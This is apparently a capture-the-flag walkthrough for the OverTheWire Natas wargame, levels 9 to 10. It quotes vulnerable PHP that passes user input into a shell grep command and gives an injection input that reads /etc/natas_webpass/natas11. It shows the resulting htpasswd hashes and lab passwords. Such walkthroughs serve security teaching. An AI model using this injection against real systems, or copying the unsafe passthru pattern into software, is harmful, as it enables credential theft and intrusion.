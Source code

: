 
## Natas Level 9 → Level 10
Username: natas10
URL:      http://natas10.natas.labs.overthewire.org
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

```py
For security reasons, we now filter on certain characters
Find words containing:
Output:
--------------------------------------------------------
Output:
<pre><?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
if($key != "") {
    if(preg_match('/ [;|&] /',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?></pre>
--------------------------------------------------------
now they are filtering the ; and & command.
but they still haven’t fixed the way “key” is storing input.
exploit this the same way we did in 9; but this time just using regular expressions.

enter ".* /etc/natas_webpass/natas11 #"
".*" : tell grep to search for all, while ignoring case, and match it to etc/natas_webpass/natas11.
"#" : comments out dictionary.txt, preventing any errors from occurring.
--------------------------------------------------------
Output:
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
.htpasswd:natas10:$1$mRklUuvs$D4FovAtQ6y2mb5vXLAy.P/
.htpasswd:natas10:$1$SpbdWYWN$qM554rKY7WrlXF5P6ErYN/
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```
---

## Natas Level 10 → Level 11
Username: natas11
URL:      http://natas11.natas.labs.overthewire.org
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
